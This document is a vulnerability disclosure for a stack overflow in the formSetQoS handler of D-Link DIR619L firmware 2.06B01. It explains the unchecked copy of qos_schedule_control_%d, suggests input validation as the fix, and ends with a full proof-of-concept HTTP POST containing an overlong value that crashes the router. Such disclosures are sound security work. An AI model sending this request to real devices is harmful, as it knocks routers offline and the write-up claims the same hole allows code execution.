

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formSetQoS` function, `qos_schedule_control_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `qos_schedule_control_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `qos_schedule_control_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `qos_schedule_control_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formSetQoS HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1050
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Traffic_Shaping.asp?t=1431078176
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431078111&config.qos_traffic_shaping_enabled=true&config.qos_auto_trans_rate=false&config.qos_max_trans_rate=10000&qos_max_trans_rate_select=0&config.qos_max_down_rate=10000&enabled_0=true&used_0=1&ipFrom_0=192.168.100.50&ipTo_0=192.168.100.51&trans_rate_select_0=1&qos_max_trans_rate_select_0=1&restrict_rate_0=10000&qos_schedule_control_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&enabled_1=0&used_1=0&ipFrom_1=&ipTo_1=&trans_rate_select_1=1&qos_max_trans_rate_select_1=1&restrict_rate_1=&qos_schedule_control_1=Always&enabled_2=0&used_2=0&ipFrom_2=&ipTo_2=&trans_rate_select_2=1&qos_max_trans_rate_select_2=1&restrict_rate_2=&qos_schedule_control_2=Always&enabled_3=0&used_3=0&ipFrom_3=&ipTo_3=&trans_rate_select_3=1&qos_max_trans_rate_select_3=1&restrict_rate_3=&qos_schedule_control_3=Always&enabled_4=0&used_4=0&ipFrom_4=&ipTo_4=&trans_rate_select_4=1&qos_max_trans_rate_select_4=1&restrict_rate_4=&qos_schedule_control_4=Always
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
